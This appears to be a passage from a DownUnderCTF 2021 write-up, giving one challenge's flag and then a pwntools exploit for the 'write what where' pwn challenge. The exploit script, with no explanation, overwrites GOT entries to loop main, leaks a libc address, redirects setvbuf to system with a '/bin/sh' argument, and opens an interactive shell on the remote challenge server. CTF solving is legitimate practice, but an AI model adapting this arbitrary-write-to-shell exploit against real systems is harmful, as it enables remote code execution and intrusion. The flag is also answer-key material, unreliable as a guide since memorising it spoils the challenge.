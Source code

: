 ```
DUCTF{you_aced_the_quiz!_have_a_gold_star_champion}
```

---
## Pwn Challenge

### write what where [310 pts]

```python
from pwn import *

r=remote("pwn-2021.duc.tf", 31920)
# r=process("./write-what-where")
b=ELF("./write-what-where")
context.log_level='debug'
lib=ELF("./libc.so.6")
# lib=ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
exit=0x404038
r.send(p32(b.sym['main']+33))
r.send(str(exit).rjust(9,'0'))

r.send(p32(b.plt['puts']))
r.send(str(b.got['setvbuf']).rjust(9,'0'))

r.send(p32(0))
r.send(str(b.got['setvbuf']+4).rjust(9,'0'))
r.send(p32(0x404050))
r.send(str(0x404060).rjust(9,'0'))

r.send(p32(0))
r.send(str(0x404060+4).rjust(9,'0'))
r.send(p32(b.sym['main']))  
r.send(str(exit).rjust(9,'0'))

base=u64(r.recvuntil(b'\x7f')[:-7:-1][::-1].ljust(8,b'\x00'))-lib.sym['_IO_2_1_stdout_']
log.info(hex(base))
system=base+lib.sym['system']
binsh=base+list(lib.search(b'/bin/sh'))[0]
log.info(hex(system))
r.send(p32(b.sym['main']+33))
r.send(str(exit).rjust(9,'0'))
r.send(p32(system&0xffffffff))
r.send(str(b.got['setvbuf']).rjust(9,'0'))

r.send(p32((system>>32)))
r.send(str(b.got['setvbuf']+4).rjust(9,'0'))

r.send(p32(binsh&0xffffffff))
r.send(str(0x404060).rjust(9,'0'))
r.send(p32((binsh>>32)))
r.send(str(0x404064).rjust(9,'0'))
# r.send(b'/sh\x00')
# r.send(str(0x404054).rjust(9,'0'))
# r.send(b'/sh\x00')
# r.send(str(0x404054).rjust(9,'0'))
r.send(p32(b.sym['main']))
r.send(str(exit).rjust(9,'0'))

r.interactive()
```

